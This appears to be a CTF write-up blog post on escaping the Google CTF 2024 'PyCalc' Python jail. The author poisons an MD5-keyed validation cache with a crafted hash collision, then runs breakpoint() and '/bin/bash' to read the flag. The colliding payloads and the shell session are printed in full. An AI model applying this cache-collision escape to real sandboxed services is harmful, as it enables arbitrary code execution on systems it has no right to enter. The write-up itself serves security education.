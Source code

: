 ```yaml
---
layout: post
title:  "Escaping a Python jail using an MD5 collision"
date:   2024-06-27 00:00:00 +0000
tags: ctf python
---
```


![pyjail](/assets/pycalc-md5-collision/pycalc.png)

I played Google CTF last weekend and there was a fun Python jail challenge, PyCalc.


Connecting to the provided host and port gives us a limited Python shell. We can evaluate basic arithmetic expressions, like so:
```bash
$~ ncat pycalc.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> 1+1
Caching code validation result with key d96e018f51ea61e5ff2f9c349c5da67d
Waiting up to 10s for completion
2
```

Most other expressions failed to execute, with the program detailing which opcode was disallowed. For example, attempting an import or calling a function:
```bash
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> import os
Caching code validation result with key ed9f4b8f879ddbb59fda1057ea3a2810
Instruction IMPORT_NAME is not allowed
Code validation failed
> exec()
Caching code validation result with key c501db5e49896515e6d0ad52c2283bc2
Instruction PRECALL is not allowed
Code validation failed
```

It was clear that there was a whitelist of permitted opcodes, and after searching for ways to execute arbitary code for a while, we couldn't find a method which didn't fail the validation.

One particular line of the output was interesting though:
> Caching code validation result with key d96e018f51ea61e5ff2f9c349c5da67d

The hash looks like MD5, and it sounds like the code is verifying the bytecode and then caching the result using this MD5 digest as the cache key. It's quickly apparent that this hash is simply the MD5 of our UTF-8 encoded input.
```python
hashlib.md5('1+1'.encode('utf8')).hexdigest() == 'd96e018f51ea61e5ff2f9c349c5da67d'
```

With this thesis we devised our solution: submit innocuous code which doesn't contain bad opcodes, which will be validated and then cached, then submit evil code which has the same MD5 hash, which contains bad opcodes and gets us a shell.

So how do we create two Python expressions with the same hash which do different things?

The idea is this: start both inputs with an open quote, `'`, then append arbitrary data to both such that the resulting strings have the same hash (i.e. create a collision), now add an identical suffix to both strings (which will preserve the collision) which switches control flow based on the random data within the strings, for example:
```python
'baR3SMhZPUl6zaL24n'[0] == 'b' or breakpoint()
'NzdYAKsD8AKK3z+la4'[0] == 'b' or breakpoint()
```
In the case of the first string the left-hand side of the `or` will be truthy and thus the expression will yield True. In the case of the second string the left-hand side will be falsy and therefore we will invoke `breakpoint()`, which in Python is sufficient to execute arbitrary code interactively.

In practice it was slightly more difficult as we couldn't use the equality operator, but we could use binary operators like `&`. We also couldn't use the binary operators on a string index, as that would be operating on a string, but we could use them on integers. Therefore we could instead prefix both inputs with `b'` to create bytestrings which when indexed will give an integer. We could use these integers with binary operators to yield a truthy and falsy value.

You may wonder why the bad opcodes on the right-hand side of the `or` aren't included in the compiled code regardless - this is because when this code is compiled into bytecode Python omits the right-hand side if the left-hand side can be evaluated to a truthy value at compile time. You can see that here:
```python
>>> c = compile('1 or breakpoint()', '', 'eval')
>>> list(map(lambda x: x.opname, dis.get_instructions(c)))
['RESUME', 'LOAD_CONST', 'RETURN_VALUE']
>>> c = compile('0 or breakpoint()', '', 'eval')
>>> list(map(lambda x: x.opname, dis.get_instructions(c)))
['RESUME', 'PUSH_NULL', 'LOAD_NAME', 'CALL', 'RETURN_VALUE']
```

To generate the collision I used the [`textcoll.sh`](https://github.com/cr-marcstevens/hashclash/blob/77419e170ef3b29812819510ce3e5db6fdcf26f0/scripts/textcoll.sh) script from Marc Stevens' HashClash. We modified the script slightly to increase the size of the alphabet, and remove the constraints on all but the first and second bytes (constraining them to `b'`). Generating this collision took around 30 minutes on a 128 core machine.

This resulted in two inputs:
```
# input1
b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(

# input2
b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(
```
Which we can see have the same MD5 hash:
```bash
$~ md5sum input*
102837a16831bc539fe06a9f21af30ad  input1
102837a16831bc539fe06a9f21af30ad  input2
$~ sha256sum input*
44ee9adeaf32bebda45eae0aa534a5574e209cd4f2b333005bbda638f3b76b2e  input1
dcaf5c2e1881d9b39c9190411dd000a52018043114c8196b4095867fdcf4a360  input2
```

Looking carefully we can see that 20th character in both bytestrings differs. In the first it is `/`, in the second it is `3`, that means we can use this index to switch the control flow.
```
b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(
                     ^
                     |--- 20th character of bytestring differs
                     v
b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg(
```

Anding these characters with `4` results in a truthy value and a falsy value, which is exactly what we need.
```python
>>> input1[19] & 4
4
>>> input2[19] & 4
0
```

This gives us a common suffix which we can append to both payloads:
```
'[19] & 4 or breakpoint()
```
Now our final inputs look like this:
```python
b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
```

Submitting the benign input followed by the evil input invokes `breakpoint()` and we can use the Python debugger to drop us into a shell, like so:
```bash
$~ ncat pycalc.2024.ctfcompetition.com 1337
== proof-of-work: disabled ==
Simple calculator in Python, type 'exit' to exit
> b'cAWa,=tDo9lp4!tc&=A/-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
Caching code validation result with key 6418545ef8b9b1daa3b5fe41d46c2cc6
Waiting up to 10s for completion
4
> b'cAWa,=tDo9lp4!tc&=A3-.mkq38p_lMEWWA{e6v!2Rk:nL|N?;5d%`3F+{3,~Dk/ddEV+5qN"UUlv5a)W$R2pF9Rm|,tiD4-kA;s$V%^>]fi`(FX=q!!!!!&!!TQg('[19] & 4 or breakpoint()
Hit code validation result cache with key 6418545ef8b9b1daa3b5fe41d46c2cc6
Waiting up to 10s for completion
--Return--
> <stdin>(1)<module>()->None
(Pdb) import os; os.system('/bin/bash')
whoami
ubuntu
/readflag
CTF{Ca$4_f0r_d3_C4cH3_Ha5hC1a5h}
```
